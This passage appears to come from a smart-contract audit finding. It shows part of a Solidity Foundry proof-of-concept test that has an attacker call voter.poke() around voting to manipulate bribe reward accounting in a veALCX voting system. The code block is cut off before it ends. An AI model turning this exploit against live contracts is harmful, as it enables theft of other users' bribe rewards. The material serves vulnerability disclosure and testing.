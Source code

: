 ## testBribeClaimingPoke_Hacked_2()
I also created the test case for the case that a normal user call poke() in this POC: 

```solidity
function testBribeClaimingPoke_Hacked_2() public {

        
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting());        
        hevm.stopPrank();

        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);

        console2.log("Fast forward 1 epoch"); 
        hevm.warp(newEpoch()); 
        
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        hevm.stopPrank();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 

```